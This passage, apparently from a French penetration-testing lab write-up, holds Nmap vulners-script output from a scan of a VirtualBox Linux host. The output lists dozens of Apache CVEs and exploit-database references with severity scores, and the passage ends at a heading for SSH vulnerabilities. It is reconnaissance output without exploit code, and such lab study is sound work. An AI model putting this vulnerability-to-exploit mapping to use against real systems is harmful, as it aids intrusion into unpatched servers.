[*] Nmap: |             EDB-ID:50383    7.5     https://vulners.com/exploitdb/EDB-ID:50383      *EXPLOIT*
[*] Nmap: |             EDB-ID:42745    7.5     https://vulners.com/exploitdb/EDB-ID:42745      *EXPLOIT*
[*] Nmap: |             EDB-ID:40961    7.5     https://vulners.com/exploitdb/EDB-ID:40961      *EXPLOIT*
[*] Nmap: |             EDB-ID:40909    7.5     https://vulners.com/exploitdb/EDB-ID:40909      *EXPLOIT*
[*] Nmap: |             E81474F6-6DDC-5FC2-828A-812A8815E3B4    7.5     https://vulners.com/githubexploit/E81474F6-6DDC-5FC2-828A-812A8815E3B4  *EXPLOIT*
[*] Nmap: |             E7B177F6-FA62-52FE-A108-4B8FC8112B7F    7.5     https://vulners.com/githubexploit/E7B177F6-FA62-52FE-A108-4B8FC8112B7F  *EXPLOIT*
[*] Nmap: |             E6B39247-8016-5007-B505-699F05FCA1B5    7.5     https://vulners.com/githubexploit/E6B39247-8016-5007-B505-699F05FCA1B5  *EXPLOIT*
[*] Nmap: |             E606D7F4-5FA2-5907-B30E-367D6FFECD89    7.5     https://vulners.com/githubexploit/E606D7F4-5FA2-5907-B30E-367D6FFECD89  *EXPLOIT*
[*] Nmap: |             E5C174E5-D6E8-56E0-8403-D287DE52EB3F    7.5     https://vulners.com/githubexploit/E5C174E5-D6E8-56E0-8403-D287DE52EB3F  *EXPLOIT*
[*] Nmap: |             E59A01BE-8176-5F5E-BD32-D30B009CDBDA    7.5     https://vulners.com/githubexploit/E59A01BE-8176-5F5E-BD32-D30B009CDBDA  *EXPLOIT*
[*] Nmap: |             E0EEEDE5-43B8-5608-B33E-75E65D2D8314    7.5     https://vulners.com/githubexploit/E0EEEDE5-43B8-5608-B33E-75E65D2D8314  *EXPLOIT*
[*] Nmap: |             E-739   7.5     https://vulners.com/dsquare/E-739       *EXPLOIT*
[*] Nmap: |             E-738   7.5     https://vulners.com/dsquare/E-738       *EXPLOIT*
[*] Nmap: |             DBF996C3-DC2A-5859-B767-6B2FC38F2185    7.5     https://vulners.com/githubexploit/DBF996C3-DC2A-5859-B767-6B2FC38F2185  *EXPLOIT*
[*] Nmap: |             DB6E1BBD-08B1-574D-A351-7D6BB9898A4A    7.5     https://vulners.com/githubexploit/DB6E1BBD-08B1-574D-A351-7D6BB9898A4A  *EXPLOIT*
[*] Nmap: |             D0E79214-C9E8-52BD-BC24-093970F5F34E    7.5     https://vulners.com/githubexploit/D0E79214-C9E8-52BD-BC24-093970F5F34E  *EXPLOIT*
[*] Nmap: |             CVE-2024-40898  7.5     https://vulners.com/cve/CVE-2024-40898
[*] Nmap: |             CVE-2024-39573  7.5     https://vulners.com/cve/CVE-2024-39573
[*] Nmap: |             CVE-2024-38477  7.5     https://vulners.com/cve/CVE-2024-38477
[*] Nmap: |             CVE-2024-38472  7.5     https://vulners.com/cve/CVE-2024-38472
[*] Nmap: |             CVE-2024-27316  7.5     https://vulners.com/cve/CVE-2024-27316
[*] Nmap: |             CVE-2023-31122  7.5     https://vulners.com/cve/CVE-2023-31122
[*] Nmap: |             CVE-2022-30556  7.5     https://vulners.com/cve/CVE-2022-30556
[*] Nmap: |             CVE-2022-30522  7.5     https://vulners.com/cve/CVE-2022-30522
[*] Nmap: |             CVE-2022-29404  7.5     https://vulners.com/cve/CVE-2022-29404
[*] Nmap: |             CVE-2022-26377  7.5     https://vulners.com/cve/CVE-2022-26377
[*] Nmap: |             CVE-2022-22719  7.5     https://vulners.com/cve/CVE-2022-22719
[*] Nmap: |             CVE-2021-41524  7.5     https://vulners.com/cve/CVE-2021-41524
[*] Nmap: |             CVE-2021-36160  7.5     https://vulners.com/cve/CVE-2021-36160
[*] Nmap: |             CVE-2021-34798  7.5     https://vulners.com/cve/CVE-2021-34798
[*] Nmap: |             CVE-2021-33193  7.5     https://vulners.com/cve/CVE-2021-33193
[*] Nmap: |             CVE-2021-31618  7.5     https://vulners.com/cve/CVE-2021-31618
[*] Nmap: |             CVE-2021-26690  7.5     https://vulners.com/cve/CVE-2021-26690
[*] Nmap: |             CVE-2020-13950  7.5     https://vulners.com/cve/CVE-2020-13950
[*] Nmap: |             CVE-2019-0217   7.5     https://vulners.com/cve/CVE-2019-0217
[*] Nmap: |             CVE-2019-0215   7.5     https://vulners.com/cve/CVE-2019-0215
[*] Nmap: |             CVE-2019-0190   7.5     https://vulners.com/cve/CVE-2019-0190
[*] Nmap: |             CVE-2018-8011   7.5     https://vulners.com/cve/CVE-2018-8011
[*] Nmap: |             CVE-2018-17199  7.5     https://vulners.com/cve/CVE-2018-17199
[*] Nmap: |             CVE-2018-1333   7.5     https://vulners.com/cve/CVE-2018-1333
[*] Nmap: |             CVE-2018-1303   7.5     https://vulners.com/cve/CVE-2018-1303
[*] Nmap: |             CVE-2017-9798   7.5     https://vulners.com/cve/CVE-2017-9798
[*] Nmap: |             CVE-2017-9789   7.5     https://vulners.com/cve/CVE-2017-9789
[*] Nmap: |             CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668
[*] Nmap: |             CVE-2017-7659   7.5     https://vulners.com/cve/CVE-2017-7659
[*] Nmap: |             CVE-2017-15710  7.5     https://vulners.com/cve/CVE-2017-15710
[*] Nmap: |             CVE-2016-8743   7.5     https://vulners.com/cve/CVE-2016-8743
[*] Nmap: |             CVE-2016-8740   7.5     https://vulners.com/cve/CVE-2016-8740
[*] Nmap: |             CVE-2016-4979   7.5     https://vulners.com/cve/CVE-2016-4979
[*] Nmap: |             CVE-2016-2161   7.5     https://vulners.com/cve/CVE-2016-2161
[*] Nmap: |             CVE-2016-0736   7.5     https://vulners.com/cve/CVE-2016-0736
[*] Nmap: |             CVE-2006-20001  7.5     https://vulners.com/cve/CVE-2006-20001
[*] Nmap: |             CF47F8BF-37F7-5EF9-ABAB-E88ECF6B64FE    7.5     https://vulners.com/githubexploit/CF47F8BF-37F7-5EF9-ABAB-E88ECF6B64FE  *EXPLOIT*
[*] Nmap: |             CDC791CD-A414-5ABE-A897-7CFA3C2D3D29    7.5     https://vulners.com/githubexploit/CDC791CD-A414-5ABE-A897-7CFA3C2D3D29  *EXPLOIT*
[*] Nmap: |             CD48BD40-E52A-5A8B-AE27-B57C358BB0EE    7.5     https://vulners.com/githubexploit/CD48BD40-E52A-5A8B-AE27-B57C358BB0EE  *EXPLOIT*
[*] Nmap: |             C9A1C0C1-B6E3-5955-A4F1-DEA0E505B14B    7.5     https://vulners.com/githubexploit/C9A1C0C1-B6E3-5955-A4F1-DEA0E505B14B  *EXPLOIT*
[*] Nmap: |             C8C7BBD4-C089-5DA7-8474-A5B2B7DC5E79    7.5     https://vulners.com/githubexploit/C8C7BBD4-C089-5DA7-8474-A5B2B7DC5E79  *EXPLOIT*
[*] Nmap: |             C8799CA3-C88C-5B39-B291-2895BE0D9133    7.5     https://vulners.com/githubexploit/C8799CA3-C88C-5B39-B291-2895BE0D9133  *EXPLOIT*
[*] Nmap: |             C0380E16-C468-5540-A427-7FE34E7CF36B    7.5     https://vulners.com/githubexploit/C0380E16-C468-5540-A427-7FE34E7CF36B  *EXPLOIT*
[*] Nmap: |             BD3652A9-D066-57BA-9943-4E34970463B9    7.5     https://vulners.com/githubexploit/BD3652A9-D066-57BA-9943-4E34970463B9  *EXPLOIT*
[*] Nmap: |             BC027F41-02AD-5D71-A452-4DD62B0F1EE1    7.5     https://vulners.com/githubexploit/BC027F41-02AD-5D71-A452-4DD62B0F1EE1  *EXPLOIT*
[*] Nmap: |             B946B2A1-2914-537A-BF26-94B48FC501B3    7.5     https://vulners.com/githubexploit/B946B2A1-2914-537A-BF26-94B48FC501B3  *EXPLOIT*
[*] Nmap: |             B9151905-5395-5622-B789-E16B88F30C71    7.5     https://vulners.com/githubexploit/B9151905-5395-5622-B789-E16B88F30C71  *EXPLOIT*
[*] Nmap: |             B81BC21D-818E-5B33-96D7-062C14102874    7.5     https://vulners.com/githubexploit/B81BC21D-818E-5B33-96D7-062C14102874  *EXPLOIT*
[*] Nmap: |             B5E74010-A082-5ECE-AB37-623A5B33FE7D    7.5     https://vulners.com/githubexploit/B5E74010-A082-5ECE-AB37-623A5B33FE7D  *EXPLOIT*
[*] Nmap: |             B58E6202-6D04-5CB0-8529-59713C0E13B8    7.5     https://vulners.com/githubexploit/B58E6202-6D04-5CB0-8529-59713C0E13B8  *EXPLOIT*
[*] Nmap: |             B53D7077-1A2B-5640-9581-0196F6138301    7.5     https://vulners.com/githubexploit/B53D7077-1A2B-5640-9581-0196F6138301  *EXPLOIT*
[*] Nmap: |             B0208442-6E17-5772-B12D-B5BE30FA5540    7.5     https://vulners.com/githubexploit/B0208442-6E17-5772-B12D-B5BE30FA5540  *EXPLOIT*
[*] Nmap: |             A9C7FB0F-65EC-5557-B6E8-6AFBBF8F140F    7.5     https://vulners.com/githubexploit/A9C7FB0F-65EC-5557-B6E8-6AFBBF8F140F  *EXPLOIT*
[*] Nmap: |             A820A056-9F91-5059-B0BC-8D92C7A31A52    7.5     https://vulners.com/githubexploit/A820A056-9F91-5059-B0BC-8D92C7A31A52  *EXPLOIT*
[*] Nmap: |             A66531EB-3C47-5C56-B8A6-E04B54E9D656    7.5     https://vulners.com/githubexploit/A66531EB-3C47-5C56-B8A6-E04B54E9D656  *EXPLOIT*
[*] Nmap: |             A3F15BCE-08AD-509D-AE63-9D3D8E402E0B    7.5     https://vulners.com/githubexploit/A3F15BCE-08AD-509D-AE63-9D3D8E402E0B  *EXPLOIT*
[*] Nmap: |             A0F268C8-7319-5637-82F7-8DAF72D14629    7.5     https://vulners.com/githubexploit/A0F268C8-7319-5637-82F7-8DAF72D14629  *EXPLOIT*
[*] Nmap: |             9EE3F7E3-70E6-503E-9929-67FE3F3735A2    7.5     https://vulners.com/githubexploit/9EE3F7E3-70E6-503E-9929-67FE3F3735A2  *EXPLOIT*
[*] Nmap: |             9D511461-7D24-5402-8E2A-58364D6E758F    7.5     https://vulners.com/githubexploit/9D511461-7D24-5402-8E2A-58364D6E758F  *EXPLOIT*
[*] Nmap: |             9CEA663C-6236-5F45-B207-A873B971F988    7.5     https://vulners.com/githubexploit/9CEA663C-6236-5F45-B207-A873B971F988  *EXPLOIT*
[*] Nmap: |             987C6FDB-3E70-5FF5-AB5B-D50065D27594    7.5     https://vulners.com/githubexploit/987C6FDB-3E70-5FF5-AB5B-D50065D27594  *EXPLOIT*
[*] Nmap: |             9814661A-35A4-5DB7-BB25-A1040F365C81    7.5     https://vulners.com/githubexploit/9814661A-35A4-5DB7-BB25-A1040F365C81  *EXPLOIT*
[*] Nmap: |             89732403-A14E-5A5D-B659-DD4830410847    7.5     https://vulners.com/githubexploit/89732403-A14E-5A5D-B659-DD4830410847  *EXPLOIT*
[*] Nmap: |             7C40F14D-44E4-5155-95CF-40899776329C    7.5     https://vulners.com/githubexploit/7C40F14D-44E4-5155-95CF-40899776329C  *EXPLOIT*
[*] Nmap: |             789B6112-E84C-566E-89A7-82CC108EFCD9    7.5     https://vulners.com/githubexploit/789B6112-E84C-566E-89A7-82CC108EFCD9  *EXPLOIT*
[*] Nmap: |             788F7DF8-01F3-5D13-9B3E-E4AA692153E6    7.5     https://vulners.com/githubexploit/788F7DF8-01F3-5D13-9B3E-E4AA692153E6  *EXPLOIT*
[*] Nmap: |             788E0E7C-6F5C-5DAD-9E3A-EE6D8A685F7D    7.5     https://vulners.com/githubexploit/788E0E7C-6F5C-5DAD-9E3A-EE6D8A685F7D  *EXPLOIT*
[*] Nmap: |             749F952B-3ACF-56B2-809D-D66E756BE839    7.5     https://vulners.com/githubexploit/749F952B-3ACF-56B2-809D-D66E756BE839  *EXPLOIT*
[*] Nmap: |             6E484197-456B-55DF-8D51-C2BB4925F45C    7.5     https://vulners.com/githubexploit/6E484197-456B-55DF-8D51-C2BB4925F45C  *EXPLOIT*
[*] Nmap: |             6BCBA83C-4A4C-58D7-92E4-DF092DFEF267    7.5     https://vulners.com/githubexploit/6BCBA83C-4A4C-58D7-92E4-DF092DFEF267  *EXPLOIT*
[*] Nmap: |             68E78C64-D93A-5E8B-9DEA-4A8D826B474E    7.5     https://vulners.com/githubexploit/68E78C64-D93A-5E8B-9DEA-4A8D826B474E  *EXPLOIT*
[*] Nmap: |             68A13FF0-60E5-5A29-9248-83A940B0FB02    7.5     https://vulners.com/githubexploit/68A13FF0-60E5-5A29-9248-83A940B0FB02  *EXPLOIT*
[*] Nmap: |             6758CFA9-271A-5E99-A590-E51F4E0C5046    7.5     https://vulners.com/githubexploit/6758CFA9-271A-5E99-A590-E51F4E0C5046  *EXPLOIT*
[*] Nmap: |             674BA200-C494-57E6-B1B4-1672DDA15D3C    7.5     https://vulners.com/githubexploit/674BA200-C494-57E6-B1B4-1672DDA15D3C  *EXPLOIT*
[*] Nmap: |             5A864BCC-B490-5532-83AB-2E4109BB3C31    7.5     https://vulners.com/githubexploit/5A864BCC-B490-5532-83AB-2E4109BB3C31  *EXPLOIT*
[*] Nmap: |             5A54F5DA-F9C1-508B-AD2D-3E45CD647D31    7.5     https://vulners.com/githubexploit/5A54F5DA-F9C1-508B-AD2D-3E45CD647D31  *EXPLOIT*
[*] Nmap: |             4E5A5BA8-3BAF-57F0-B71A-F04B4D066E4F    7.5     https://vulners.com/githubexploit/4E5A5BA8-3BAF-57F0-B71A-F04B4D066E4F  *EXPLOIT*
[*] Nmap: |             4C79D8E5-D595-5460-AA84-18D4CB93E8FC    7.5     https://vulners.com/githubexploit/4C79D8E5-D595-5460-AA84-18D4CB93E8FC  *EXPLOIT*
[*] Nmap: |             4B14D194-BDE3-5D7F-A262-A701F90DE667    7.5     https://vulners.com/githubexploit/4B14D194-BDE3-5D7F-A262-A701F90DE667  *EXPLOIT*
[*] Nmap: |             45D138AD-BEC6-552A-91EA-8816914CA7F4    7.5     https://vulners.com/githubexploit/45D138AD-BEC6-552A-91EA-8816914CA7F4  *EXPLOIT*
[*] Nmap: |             41F0C2DA-2A2B-5ACC-A98D-CAD8D5AAD5ED    7.5     https://vulners.com/githubexploit/41F0C2DA-2A2B-5ACC-A98D-CAD8D5AAD5ED  *EXPLOIT*
[*] Nmap: |             4051D2EF-1C43-576D-ADB2-B519B31F93A0    7.5     https://vulners.com/githubexploit/4051D2EF-1C43-576D-ADB2-B519B31F93A0  *EXPLOIT*
[*] Nmap: |             3CF66144-235E-5F7A-B889-113C11ABF150    7.5     https://vulners.com/githubexploit/3CF66144-235E-5F7A-B889-113C11ABF150  *EXPLOIT*
[*] Nmap: |             379FCF38-0B4A-52EC-BE3E-408A0467BF20    7.5     https://vulners.com/githubexploit/379FCF38-0B4A-52EC-BE3E-408A0467BF20  *EXPLOIT*
[*] Nmap: |             365CD0B0-D956-59D6-9500-965BF4017E2D    7.5     https://vulners.com/githubexploit/365CD0B0-D956-59D6-9500-965BF4017E2D  *EXPLOIT*
[*] Nmap: |             2E98EA81-24D1-5D5B-80B9-A8D616BF3C3F    7.5     https://vulners.com/githubexploit/2E98EA81-24D1-5D5B-80B9-A8D616BF3C3F  *EXPLOIT*
[*] Nmap: |             2B4FEB27-377B-557B-AE46-66D677D5DA1C    7.5     https://vulners.com/githubexploit/2B4FEB27-377B-557B-AE46-66D677D5DA1C  *EXPLOIT*
[*] Nmap: |             2A177215-CE4A-5FA7-B016-EEAF332D165C    7.5     https://vulners.com/githubexploit/2A177215-CE4A-5FA7-B016-EEAF332D165C  *EXPLOIT*
[*] Nmap: |             1B75F2E2-5B30-58FA-98A4-501B91327D7F    7.5     https://vulners.com/githubexploit/1B75F2E2-5B30-58FA-98A4-501B91327D7F  *EXPLOIT*
[*] Nmap: |             18AE455A-1AA7-5386-81C2-39DA02CEFB57    7.5     https://vulners.com/githubexploit/18AE455A-1AA7-5386-81C2-39DA02CEFB57  *EXPLOIT*
[*] Nmap: |             17C6AD2A-8469-56C8-BBBE-1764D0DF1680    7.5     https://vulners.com/githubexploit/17C6AD2A-8469-56C8-BBBE-1764D0DF1680  *EXPLOIT*
[*] Nmap: |             1337DAY-ID-38427        7.5     https://vulners.com/zdt/1337DAY-ID-38427        *EXPLOIT*
[*] Nmap: |             1337DAY-ID-37030        7.5     https://vulners.com/zdt/1337DAY-ID-37030        *EXPLOIT*
[*] Nmap: |             1337DAY-ID-36937        7.5     https://vulners.com/zdt/1337DAY-ID-36937        *EXPLOIT*
[*] Nmap: |             1337DAY-ID-36897        7.5     https://vulners.com/zdt/1337DAY-ID-36897        *EXPLOIT*
[*] Nmap: |             1145F3D1-0ECB-55AA-B25D-A26892116505    7.5     https://vulners.com/githubexploit/1145F3D1-0ECB-55AA-B25D-A26892116505  *EXPLOIT*
[*] Nmap: |             108A0713-4AB8-5A1F-A16B-4BB13ECEC9B2    7.5     https://vulners.com/githubexploit/108A0713-4AB8-5A1F-A16B-4BB13ECEC9B2  *EXPLOIT*
[*] Nmap: |             0C28A0EC-7162-5D73-BEC9-B034F5392847    7.5     https://vulners.com/githubexploit/0C28A0EC-7162-5D73-BEC9-B034F5392847  *EXPLOIT*
[*] Nmap: |             0BC014D0-F944-5E78-B5FA-146A8E5D0F8A    7.5     https://vulners.com/githubexploit/0BC014D0-F944-5E78-B5FA-146A8E5D0F8A  *EXPLOIT*
[*] Nmap: |             06076ECD-3FB7-53EC-8572-ABBB20029812    7.5     https://vulners.com/githubexploit/06076ECD-3FB7-53EC-8572-ABBB20029812  *EXPLOIT*
[*] Nmap: |             00EC8F03-D8A3-56D4-9F8C-8DD1F5ACCA08    7.5     https://vulners.com/githubexploit/00EC8F03-D8A3-56D4-9F8C-8DD1F5ACCA08  *EXPLOIT*
[*] Nmap: |             CVE-2023-38709  7.3     https://vulners.com/cve/CVE-2023-38709
[*] Nmap: |             CVE-2020-35452  7.3     https://vulners.com/cve/CVE-2020-35452
[*] Nmap: |             EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    *EXPLOIT*
[*] Nmap: |             1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-ID-32502        *EXPLOIT*
[*] Nmap: |             FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8    6.8     https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8  *EXPLOIT*
[*] Nmap: |             4427DEE4-E1E2-5A16-8683-D74750941604    6.8     https://vulners.com/githubexploit/4427DEE4-E1E2-5A16-8683-D74750941604  *EXPLOIT*
[*] Nmap: |             0095E929-7573-5E4A-A7FA-F6598A35E8DE    6.8     https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE  *EXPLOIT*
[*] Nmap: |             CVE-2024-24795  6.3     https://vulners.com/cve/CVE-2024-24795
[*] Nmap: |             CVE-2024-39884  6.2     https://vulners.com/cve/CVE-2024-39884
[*] Nmap: |             CVE-2020-1927   6.1     https://vulners.com/cve/CVE-2020-1927
[*] Nmap: |             CVE-2019-10098  6.1     https://vulners.com/cve/CVE-2019-10098
[*] Nmap: |             CVE-2019-10092  6.1     https://vulners.com/cve/CVE-2019-10092
[*] Nmap: |             CVE-2016-4975   6.1     https://vulners.com/cve/CVE-2016-4975
[*] Nmap: |             CVE-2023-45802  5.9     https://vulners.com/cve/CVE-2023-45802
[*] Nmap: |             CVE-2018-1302   5.9     https://vulners.com/cve/CVE-2018-1302
[*] Nmap: |             CVE-2018-1301   5.9     https://vulners.com/cve/CVE-2018-1301
[*] Nmap: |             CVE-2018-11763  5.9     https://vulners.com/cve/CVE-2018-11763
[*] Nmap: |             CVE-2016-1546   5.9     https://vulners.com/cve/CVE-2016-1546
[*] Nmap: |             45F0EB7B-CE04-5103-9D40-7379AE4B6CDD    5.8     https://vulners.com/githubexploit/45F0EB7B-CE04-5103-9D40-7379AE4B6CDD  *EXPLOIT*
[*] Nmap: |             1337DAY-ID-33577        5.8     https://vulners.com/zdt/1337DAY-ID-33577        *EXPLOIT*
[*] Nmap: |             CVE-2020-13938  5.5     https://vulners.com/cve/CVE-2020-13938
[*] Nmap: |             CVE-2022-37436  5.3     https://vulners.com/cve/CVE-2022-37436
[*] Nmap: |             CVE-2022-28614  5.3     https://vulners.com/cve/CVE-2022-28614
[*] Nmap: |             CVE-2022-28330  5.3     https://vulners.com/cve/CVE-2022-28330
[*] Nmap: |             CVE-2021-30641  5.3     https://vulners.com/cve/CVE-2021-30641
[*] Nmap: |             CVE-2020-1934   5.3     https://vulners.com/cve/CVE-2020-1934
[*] Nmap: |             CVE-2020-11985  5.3     https://vulners.com/cve/CVE-2020-11985
[*] Nmap: |             CVE-2019-17567  5.3     https://vulners.com/cve/CVE-2019-17567
[*] Nmap: |             CVE-2019-0220   5.3     https://vulners.com/cve/CVE-2019-0220
[*] Nmap: |             CVE-2019-0196   5.3     https://vulners.com/cve/CVE-2019-0196
[*] Nmap: |             CVE-2018-17189  5.3     https://vulners.com/cve/CVE-2018-17189
[*] Nmap: |             CVE-2018-1283   5.3     https://vulners.com/cve/CVE-2018-1283
[*] Nmap: |             SSV:96537       5.0     https://vulners.com/seebug/SSV:96537    *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:DAED9B9E8D259B28BF72FC7FDC4755A7    5.0     https://vulners.com/exploitpack/EXPLOITPACK:DAED9B9E8D259B28BF72FC7FDC4755A7    *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    5.0     https://vulners.com/exploitpack/EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D    *EXPLOIT*
[*] Nmap: |             EXPLOITPACK:2666FB0676B4B582D689921651A30355    5.0     https://vulners.com/exploitpack/EXPLOITPACK:2666FB0676B4B582D689921651A30355    *EXPLOIT*
[*] Nmap: |             1337DAY-ID-28573        5.0     https://vulners.com/zdt/1337DAY-ID-28573        *EXPLOIT*
[*] Nmap: |             1337DAY-ID-26574        5.0     https://vulners.com/zdt/1337DAY-ID-26574        *EXPLOIT*
[*] Nmap: |             FFE89CAE-FAA6-5E93-9994-B5F4D0EC2197    4.3     https://vulners.com/githubexploit/FFE89CAE-FAA6-5E93-9994-B5F4D0EC2197  *EXPLOIT*
[*] Nmap: |             F893E602-F8EB-5D23-8ABF-920890DB23A3    4.3     https://vulners.com/githubexploit/F893E602-F8EB-5D23-8ABF-920890DB23A3  *EXPLOIT*
[*] Nmap: |             F463914D-1B20-54CA-BF87-EA28F3ADE2A3    4.3     https://vulners.com/githubexploit/F463914D-1B20-54CA-BF87-EA28F3ADE2A3  *EXPLOIT*
[*] Nmap: |             ECD5D758-774C-5488-B782-C8996208B401    4.3     https://vulners.com/githubexploit/ECD5D758-774C-5488-B782-C8996208B401  *EXPLOIT*
[*] Nmap: |             E9FE319B-26BF-5A75-8C6A-8AE55D7E7615    4.3     https://vulners.com/githubexploit/E9FE319B-26BF-5A75-8C6A-8AE55D7E7615  *EXPLOIT*
[*] Nmap: |             DF57E8F1-FE21-5EB9-8FC7-5F2EA267B09D    4.3     https://vulners.com/githubexploit/DF57E8F1-FE21-5EB9-8FC7-5F2EA267B09D  *EXPLOIT*
[*] Nmap: |             D7922C26-D431-5825-9897-B98478354289    4.3     https://vulners.com/githubexploit/D7922C26-D431-5825-9897-B98478354289  *EXPLOIT*
[*] Nmap: |             CVE-2016-8612   4.3     https://vulners.com/cve/CVE-2016-8612
[*] Nmap: |             C26A395B-9695-59E4-908F-866A561936E9    4.3     https://vulners.com/githubexploit/C26A395B-9695-59E4-908F-866A561936E9  *EXPLOIT*
[*] Nmap: |             C068A003-5258-51DC-A3C0-786638A1B69C    4.3     https://vulners.com/githubexploit/C068A003-5258-51DC-A3C0-786638A1B69C  *EXPLOIT*
[*] Nmap: |             B8198D62-F9C8-5E03-A301-9A3580070B4C    4.3     https://vulners.com/githubexploit/B8198D62-F9C8-5E03-A301-9A3580070B4C  *EXPLOIT*
[*] Nmap: |             B4483895-BA86-5CFB-84F3-7C06411B5175    4.3     https://vulners.com/githubexploit/B4483895-BA86-5CFB-84F3-7C06411B5175  *EXPLOIT*
[*] Nmap: |             A6753173-D2DC-54CC-A5C4-0751E61F0343    4.3     https://vulners.com/githubexploit/A6753173-D2DC-54CC-A5C4-0751E61F0343  *EXPLOIT*
[*] Nmap: |             A1FF76C0-CF98-5704-AEE4-DF6F1E434FA3    4.3     https://vulners.com/githubexploit/A1FF76C0-CF98-5704-AEE4-DF6F1E434FA3  *EXPLOIT*
[*] Nmap: |             8FB9E7A8-9A5B-5D87-9A44-AE4A1A92213D    4.3     https://vulners.com/githubexploit/8FB9E7A8-9A5B-5D87-9A44-AE4A1A92213D  *EXPLOIT*
[*] Nmap: |             8A14FEAD-A401-5B54-84EB-2059841AD1DD    4.3     https://vulners.com/githubexploit/8A14FEAD-A401-5B54-84EB-2059841AD1DD  *EXPLOIT*
[*] Nmap: |             7248BA4C-3FE5-5529-9E4C-C91E241E8AA0    4.3     https://vulners.com/githubexploit/7248BA4C-3FE5-5529-9E4C-C91E241E8AA0  *EXPLOIT*
[*] Nmap: |             6E104766-2F7A-5A0A-A24B-61D9B52AD4EE    4.3     https://vulners.com/githubexploit/6E104766-2F7A-5A0A-A24B-61D9B52AD4EE  *EXPLOIT*
[*] Nmap: |             6C0C909F-3307-5755-97D2-0EBD17367154    4.3     https://vulners.com/githubexploit/6C0C909F-3307-5755-97D2-0EBD17367154  *EXPLOIT*
[*] Nmap: |             628A345B-5FD8-5A2F-8782-9125584E4C89    4.3     https://vulners.com/githubexploit/628A345B-5FD8-5A2F-8782-9125584E4C89  *EXPLOIT*
[*] Nmap: |             5D88E443-7AB2-5034-910D-D52A5EFFF5FC    4.3     https://vulners.com/githubexploit/5D88E443-7AB2-5034-910D-D52A5EFFF5FC  *EXPLOIT*
[*] Nmap: |             500CE683-17EB-5776-8EF6-85122451B145    4.3     https://vulners.com/githubexploit/500CE683-17EB-5776-8EF6-85122451B145  *EXPLOIT*
[*] Nmap: |             4E4BAF15-6430-514A-8679-5B9F03584B71    4.3     https://vulners.com/githubexploit/4E4BAF15-6430-514A-8679-5B9F03584B71  *EXPLOIT*
[*] Nmap: |             4B46EB21-DF1F-5D84-AE44-9BCFE311DFB9    4.3     https://vulners.com/githubexploit/4B46EB21-DF1F-5D84-AE44-9BCFE311DFB9  *EXPLOIT*
[*] Nmap: |             4B44115D-85A3-5E62-B9A8-5F336C24673F    4.3     https://vulners.com/githubexploit/4B44115D-85A3-5E62-B9A8-5F336C24673F  *EXPLOIT*
[*] Nmap: |             4013EC74-B3C1-5D95-938A-54197A58586D    4.3     https://vulners.com/githubexploit/4013EC74-B3C1-5D95-938A-54197A58586D  *EXPLOIT*
[*] Nmap: |             3C5B500C-1858-5834-9D23-38DBE44AE969    4.3     https://vulners.com/githubexploit/3C5B500C-1858-5834-9D23-38DBE44AE969  *EXPLOIT*
[*] Nmap: |             3B159471-590A-5941-ADED-20F4187E8C63    4.3     https://vulners.com/githubexploit/3B159471-590A-5941-ADED-20F4187E8C63  *EXPLOIT*
[*] Nmap: |             3AE03E90-26EC-5F91-B84E-F04AF6239A9F    4.3     https://vulners.com/githubexploit/3AE03E90-26EC-5F91-B84E-F04AF6239A9F  *EXPLOIT*
[*] Nmap: |             37A9128D-17C4-50FF-B025-5FC3E0F3F338    4.3     https://vulners.com/githubexploit/37A9128D-17C4-50FF-B025-5FC3E0F3F338  *EXPLOIT*
[*] Nmap: |             3749CB78-BE3A-5018-8838-CA693845B5BD    4.3     https://vulners.com/githubexploit/3749CB78-BE3A-5018-8838-CA693845B5BD  *EXPLOIT*
[*] Nmap: |             27108E72-8DC1-53B5-97D9-E869CA13EFF7    4.3     https://vulners.com/githubexploit/27108E72-8DC1-53B5-97D9-E869CA13EFF7  *EXPLOIT*
[*] Nmap: |             24ADD37D-C8A1-5671-A0F4-378760FC69AC    4.3     https://vulners.com/githubexploit/24ADD37D-C8A1-5671-A0F4-378760FC69AC  *EXPLOIT*
[*] Nmap: |             1E6E9010-4BDF-5C30-951C-79C280B90883    4.3     https://vulners.com/githubexploit/1E6E9010-4BDF-5C30-951C-79C280B90883  *EXPLOIT*
[*] Nmap: |             1337DAY-ID-36854        4.3     https://vulners.com/zdt/1337DAY-ID-36854        *EXPLOIT*
[*] Nmap: |             1337DAY-ID-33575        4.3     https://vulners.com/zdt/1337DAY-ID-33575        *EXPLOIT*
[*] Nmap: |             04E3583E-DFED-5D0D-BCF2-1C1230EB666D    4.3     https://vulners.com/githubexploit/04E3583E-DFED-5D0D-BCF2-1C1230EB666D  *EXPLOIT*
[*] Nmap: |             PACKETSTORM:164501      0.0     https://vulners.com/packetstorm/PACKETSTORM:164501      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:164418      0.0     https://vulners.com/packetstorm/PACKETSTORM:164418      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:152441      0.0     https://vulners.com/packetstorm/PACKETSTORM:152441      *EXPLOIT*
[*] Nmap: |             PACKETSTORM:140265      0.0     https://vulners.com/packetstorm/PACKETSTORM:140265      *EXPLOIT*
[*] Nmap: |             1337DAY-ID-26497        0.0     https://vulners.com/zdt/1337DAY-ID-26497        *EXPLOIT*
[*] Nmap: |_            05403438-4985-5E78-A702-784E03F724D4    0.0     https://vulners.com/githubexploit/05403438-4985-5E78-A702-784E03F724D4  *EXPLOIT*
[*] Nmap: MAC Address: 08:00:27:95:3D:29 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
[*] Nmap: Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 352.89 seconds
```

## Vulnérabilités de la Machine

### 🔒 SSH (OpenSSH 7.2p2)

